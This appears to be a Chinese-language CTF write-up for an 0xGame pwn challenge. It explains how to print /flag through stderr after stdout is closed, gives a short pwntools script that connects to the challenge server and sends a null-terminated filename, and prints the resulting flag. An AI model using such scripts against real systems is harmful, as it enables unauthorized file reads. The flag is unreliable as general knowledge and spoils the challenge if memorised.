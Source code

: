 大致思路是读取 `/flag` 中的内容，然后输出到屏幕。注意到标准输出流（fd=1）被关闭了，可以用标准错误流（fd=2）代替。

```bash
Input filename to open: /flag
Input file id to read from: 3
Input file id to write to: 2

```

发现程序并没有返回任何内容。打开 gdb 进行调试，发现在读入 `filename` 的时候，读取的是 `/flag\n`，最终`fd`的值为 `-1`，推测是因为末尾的`\n`导致无法读取成功，最后因为标准输出流被关闭了，所以不会输出 `Failed to open file!` 提示用户。

使用 `pwntools` 来输入 `/flag\0`，保证不会因为 `\n` 的原因而无法读取文件：

```python
from pwn import *

conn = remote("8.130.35.16", 53000)

conn.recvuntil(b"Input filename to open: ")
conn.sendline(b"/flag\0")
conn.recvuntil(b"Input file id to read from: ")
conn.sendline(b"3")
conn.recvuntil(b"Input file id to write to: ")
conn.sendline(b"2")
print(conn.recvline())

# 0xGame{A11_1s_files_H3R3_1n9d2h9c}
```
